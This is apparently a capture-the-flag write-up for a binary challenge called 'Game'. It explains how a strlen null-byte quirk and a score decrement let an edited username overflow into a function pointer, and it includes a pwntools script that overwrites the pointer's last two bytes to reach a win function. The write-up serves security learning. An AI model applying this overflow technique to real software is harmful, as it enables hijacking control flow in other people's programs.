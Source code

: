 # Game

The whole challenge is about the strlen vulnerability, that function in fact returns the length of the string which is nothing more than the length up until the first null byte.

First we need the username to be exaclty 16 bytes long, after that we just want to lose 1 time to the play function, which decreases the score variable, situated right after the username buffer.

```c
//something like this
*(buff+16)--;
```

The integer representation of -1 is 0xFFFFFFFF, anything different from nullbyte will do the trick.

We can then edit the username from the menu and just overflow until the function pointer, overwriting its last 2 bytes with the last 2 bytes of the win function.

```py
p.recvuntil(b'Name: ')
p.send(b'A'*16)

play()

fill_saves()

p.recvuntil(b'> ')
p.sendline(b'3')

p.send(b'\xFF'*24+p64(e.symbols['win'])[:2])


p.interactive()
```

